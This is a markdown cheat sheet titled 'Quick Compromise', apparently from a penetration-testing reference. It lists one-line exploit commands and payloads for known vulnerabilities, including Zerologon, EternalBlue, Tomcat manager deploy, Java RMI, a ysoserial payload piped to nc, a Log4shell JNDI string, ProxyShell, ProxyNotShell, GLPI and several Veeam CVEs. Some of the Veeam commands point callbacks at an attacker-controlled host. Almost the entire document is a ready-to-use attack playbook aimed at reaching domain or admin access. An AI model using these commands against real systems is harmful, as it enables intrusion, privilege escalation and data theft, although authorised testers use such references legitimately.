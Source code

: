 # Quick Compromise

## ⚠️ Zerologon (unsafe) CVE-2020-1472 @CVE@ >>> Domain admin
- `zerologon-scan '<dc_netbios_name>' '<ip>'`
- `cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>`

## Eternal Blue MS17-010 @CVE@ >>> Admin || Low access
- `msf> exploit/windows/smb/ms17_010_eternalblue # SMBv1 only`

## Tomcat/Jboss Manager >>> Admin || Low access
- `msf> auxiliary/scanner/http/tomcat_enum`
- `msf> exploit/multi/http/tomcat_mgr_deploy`

## Java RMI >>> Admin || Low access
- `msf> use exploit/multi/misc/java_rmi_server`

## Java Serialiszed port >>> Admin || Low access
- `ysoserial.jar <gadget> '<cmd>' |nc <ip> <port>`

## Log4shell >>> Admin || Low access
- ${jndi:ldap://<ip>:<port>/o=reference}

## Database >>> Admin || Low access
- `msf> use auxiliary/admin/mssql/mssql_enum_sql_logins`

## Exchange >>> Admin
- Proxyshell @CVE@
  - `proxyshell_rce.py -u https://<exchange> -e administrator@<domain>`
- ProxyNotShell @CVE@
  - `poc_aug3.py <host> <username> <password> <command>`

## Veeam >>> User Account || Low access || Admin
- CVE-2023-27532 (creds - Veeam backup) @CVE@
  - `VeeamHax.exe --target <veeam_server>`
  - `CVE-2023-27532 net.tcp:/<target>:<port>/`
- CVE-2024-29849 (auth bypass - Veeam Backup Enterprise Manager) @CVE@
  - `CVE-2024-29849.py --target https://<veeam_ip>:<veeam_port>/ --callback-server <attacker_ip>:<port>`
- CVE-2024-29855 (auth bypass - Veeam Recovery Orchestrator) @CVE@
  - `CVE-2024-29855.py  --start_time <start_time_epoch> --end_time <end_time_epoch> --username <user>@<domain> --target https://<veeam_ip>:<veeam_port>/`
- CVE-2024-40711 (unserialize - Veeam backup) @CVE@
  - `CVE-2024-40711.exe -f binaryformatter -g Veeam -c http://<attacker_ip>:8000/trigger --targetveeam <veeam_ip>`

## GLPI >>> Admin || Low access
- CVE-2022-35914 @CVE@
  - /vendor/htmlawed/htmlawed/htmLawedTest.php
- CVE_2023_41320 @CVE@
  - `cve_2023_41320.py -u <user> -p <password> -t <ip>`

## Weak websites / services
- nuclei
  - `nuclei -target <ip_range>`
- nessus